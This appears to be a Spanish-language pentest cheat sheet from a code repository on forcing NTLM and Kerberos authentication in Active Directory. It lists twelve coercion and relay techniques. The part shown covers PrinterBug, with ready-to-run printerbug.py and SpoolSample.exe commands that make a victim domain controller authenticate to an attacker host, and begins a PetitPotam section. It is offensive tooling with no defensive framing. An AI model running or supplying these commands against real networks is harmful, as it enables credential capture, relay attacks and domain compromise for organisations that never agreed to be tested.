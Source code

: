 # Técnicas y Herramientas para Forzar Autenticación NTLM y Kerberos en Active Directory

---

## Índice de Técnicas

1. [PrinterBug (MS-RPRN)](#1-printerbug-ms-rprn)
2. [PetitPotam (EFSRPC)](#2-petitpotam-efsrpc)
3. [Dementor (DRSUAPI)](#3-dementor-drsuapi)
4. [ShadowCoerce (VSS)](#4-shadowcoerce-vss)
5. [DFSCoerce (DFSNM)](#5-dfscoerce-dfsnm)
6. [Coercer (Multiprotocolo)](#6-coercer-multiprotocolo)
7. [ADIDNS/DNSadmin](#7-adidnsdnsadmin)
8. [Responder (LLMNR/NBT-NS/WPAD/mDNS)](#8-responder-llmnrnbt-nswpadmdns)
9. [WPAD/LLMNR/mDNS/MITM6](#9-wpadllmnrmdnsmitm6)
10. [Otros Coerciones (FSRVPCoerce, SchtasksCoerce, ICPRCoerce)](#10-otros-coerciones-fsrvpcoerce-schtaskscoerce-icprcoerce)
11. [NTLMRelayx (Relay de autenticación NTLM)](#11-ntlmrelayx-relay-de-autenticación-ntlm)
12. [Krbrelayx (Relay de autenticación Kerberos)](#12-krbrelayx-relay-de-autenticación-kerberos)

---

## 1. PrinterBug (MS-RPRN)
| Aspecto         | Detalle                                                                                      |
|-----------------|---------------------------------------------------------------------------------------------|
| **Descripción** | Abusa del servicio de impresión para forzar autenticación NTLM de la víctima hacia el atacante. |
| **Condiciones** | Servicio de impresoras activo en la víctima (por defecto en DCs antiguos, puede estar deshabilitado). |

**Herramientas y comandos:**
- **Linux:**  
  - **Impacket/printerbug.py:**  
    ```bash
    python3 printerbug.py <DOMAIN>/<USER>:<PASS>@<VICTIMA_DC> <attacker_host>
    ```
- **Windows:**  
  - **SpoolSample (C#):**  
    ```powershell
    SpoolSample.exe <victima> <attacker_host>
    ```

[Volver al índice](#índice-de-técnicas)

---

## 2. PetitPotam (EFSRPC)
| Aspecto         | Detalle                                                                                          |
|-----------------|-------------------------------------------------------------------------------------------------|
| **Descripción** | Abusa del protocolo EFSRPC (MS-EFSR) para forzar autenticación NTLM de la víctima.              |
| **Condiciones** | Víctima debe tener el servicio EFSRPC habilitado (normal en DC/Windows reciente).                |
